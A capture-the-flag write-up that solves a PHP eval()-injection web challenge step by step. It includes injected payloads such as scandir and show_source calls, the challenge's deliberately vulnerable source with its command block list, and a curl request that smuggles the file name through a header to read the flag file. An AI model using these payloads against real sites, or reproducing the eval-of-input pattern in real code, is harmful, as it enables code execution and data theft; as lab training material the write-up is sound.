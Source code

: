 # Web-Embedding
URL of the challenge: [http://138.91.58.10/Embedding/] (Embedding)

In the page, we got a input box
```html
<input name="username" placeholder="Enter Your UserName Here">
```

We tried to input 
> getcwd()

The result changed to
> /var/www/html/Embedding welcome

Thus, we knew that the challenge is about <font color="#f03c15"> Eval() Vulnerability </font> \

Then, we put 
> print_r(scandir(getcwd()))
to get all file in this directory.\

The result changed to
> Array ( \[0\] => . \[1\] => .. \[2\] => fl@g.php \[3\] => index.php ) 1 welcome

Finally, we knew that the flag is stored in fl@g.php

Before we get the source code of fl@g.php, we should know the constants of the input first.\

Thus, we typed
> show_source(end(scandir(getcwd())))

```php
<html> 
<head><title>Embedded Challenge </title> </head>
<body>
<form> 
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<?php




if(isset($_GET["username"]))
{
    $wl = preg_match('/^[a-z0-9\(\)\_\.\']+$/i', $_GET["username"]);
    $comn=preg_match('/^(rm|cp|mv|cd|grep|find|cat|Y2F0|ZmluZA|cm0|Y3A|bXY|Z3JlcA|whoami|)+$/i', $_GET["username"]);

    if($wl === 0 || $comn===1 || strlen($_GET["username"]) > 40) {
        die("Bad Character Detected or you Break The Limit ");
   }
   $username=$_GET['username'];
    $eval=eval("echo ".$username.";");
    echo(" welcome ".$eval);
}
?> 
```

Thus, we knew that the input only can be \
<font color="#f03c15">a-z</font>, 
<font color="#f03c15">0-9</font>, 
<font color="#f03c15">(</font>, 
<font color="#f03c15">)</font>, 
<font color="#f03c15">_</font>, 
<font color="#f03c15">.</font>, 
<font color="#f03c15">'</font> and the string length must be smaller than 41

First we try that
> read_file(next(array_reverse(scandir('.'))))

However, the string length is 43, we cannot get the result. Instead

Thus, we found that we can set the header of the request to store variable fl@g.php \

Then, we use curl command in console to get the source code of fl@g.php

> curl -s -H "Flag: fl@g.php" "http://138.91.58.10/Embedding/?username=show_source(end(getallheaders()))"

```html 
<html>
<head><title>Embedded Challenge </title> </head>
<body>
<form>
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />$flag</span><span style="color: #007700">=</span><span style="color: #DD0000">"0xL4ugh{Z!90o_S@y_W3lC0m3}"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>1 welcome
```

Finally, we got the flag ^.^

> 0xL4ugh{Z!90o_S@y_W3lC0m3}

